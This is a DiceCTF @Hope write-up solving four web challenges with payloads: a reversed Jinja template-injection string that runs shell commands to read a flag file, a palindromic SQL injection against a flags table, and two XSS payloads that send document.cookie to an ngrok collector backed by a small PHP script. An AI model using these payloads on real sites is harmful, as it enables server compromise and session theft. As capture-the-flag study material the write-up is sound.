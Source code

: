 # DiceCTF @Hope writeup

Mostly solved the web challenges with Task_Hashed

---------------------------------------------------------------------------------------------------

## Reverser

the website is a text reverser and from the source code we can tell its an SSTI so we just have to put a regular SSTI payload but just reversed

regular payload: 
```
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

{{config.__class__.__init__.__globals__['os'].popen('cat flag-ccba9605-afeb-49a6-8aac-d56bac20705b.txt').read()}}
```
supplied reversed payload:

```
}}  )(daer.)'sl'(nepop.]'so'[__slabolg__.__tini__.__ssalc__.gifnoc {{
    
}})(daer.)'txt.b50702cab65d-caa8-6a94-befa-5069abcc-galf tac'(nepop.]'so'[__slabolg__.__tini__.__ssalc__.gifnoc{{
```


---------------------------------------------------------------------------------------------------

## Pastebin 

the important part of this challenge is :

```python 
    if (paste.search(/<.*>/) !== -1) {
        return res.redirect('/flash?message=Illegal characters in paste!');
        }
```

My solution : 

```html
<img src=x onerror=javascript:document.location='http://37b0-41-225-85-6.ngrok.io/ok.php?c='+document.cookie;
```

with ok.php :
```php
<?php 
    $cookies = $_GET["c"];
?>
``` 
---------------------------------------------------------------------------------------------------

## oeps

this challenge requires to put a palindrome string to add them to the pending table

notice there's two ways we can control user input. either search for approved sentences or pass our own but it has to be a palindrome

since the search is blocking special chars we can try with the pending sentences input

so we can try some sql injections

this is what the query looked like 

```python 
connection.execute('''
        insert into pending (user, sentence) values ('%s', '%s');
    ''' % (
        token,
        submission
))
```


payload: ```')--```
payload supplied : ```')---)'```

and we can see we get a blank input meaning our payload worked! and we know the flag is in the flags table so we can use the ```'%'||(query)||'%'``` to get an element from another table

payload : ```%'||(SELECT flag FROM flags)||'%');---;)'%'||)sgalf MORF galf TCELES(||'% ``` 

the final query looks like this 

```sql
insert into pending (user, sentence) values ('1234', '%'||(SELECT flag FROM flags)||'%');---;)'%'||)sgalf MORF galf TCELES(||'%');
```

```
flag : hope{ecid_gnivlovni_semordnilap_fo_kniht_ton_dluoc}
```

------------------------------------------------------------------------------------------------------------------------------------

## mk

Abusing MathJax renderer for an xss by supplying the source to the mathjax file

payload :

```javascript
<script src="https://mk.mc.ax/MathJax/MathJax.js">document.location='http://02f6-41-225-148-43.ngrok.io/ok.php?c='+document.cookie;</script>
```


with ok.php :
```php
<?php 
    $cookies = $_GET["c"];
?>
``` 
